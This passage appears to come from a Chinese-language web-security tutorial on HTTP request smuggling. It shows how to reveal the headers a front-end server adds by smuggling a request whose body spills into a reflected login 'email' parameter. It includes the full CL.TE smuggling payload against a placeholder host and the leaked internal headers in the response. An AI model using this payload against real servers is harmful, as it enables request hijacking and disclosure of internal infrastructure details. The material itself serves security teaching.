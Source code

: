 在某些情况下，如果你走私的请求缺少一些前端服务器（转发服务）添加的头，那么后端服务可能不会正常处理，从而导致走私请求无法达到预期的效果。

通常有一些简单的方法可以准确地得知前端服务器（转发服务）是如何重写请求的。为此，需要执行以下步骤：
- 找到一个将请求参数的值反映到应用程序响应中的 POST 请求。
- 随机排列参数，以使反映的参数出现在消息体的最后。
- 将这个请求走私到后端服务器，然后直接发送一个要显示其重写形式的普通请求。

假设应用程序有个登录的功能，其会反映 email 参数：
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

响应内容包括：
```
<input id="email" value="wiener@normal-user.net" type="text">
```

此时，你可以使用以下请求走私攻击来揭示前端服务器（转发服务）对请求的重写：

<code>
    <span style="color:blue">
        POST / HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Length: 130<br>
        Transfer-Encoding: chunked<br>
        <br>
        0<br>
    </span>
    <br>
    <span style="color:orange">
        POST /login HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Type: application/x-www-form-urlencoded<br>
        Content-Length: 100<br>
        <br>
        email=</span><span style="color:green">POST /login HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        ...
    </span>
</code>

前端服务器（转发服务）将会重写请求以添加标头，然后后端服务器将处理走私请求，并将第二个请求当作 email 参数的值，且在响应中反映出来：
```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

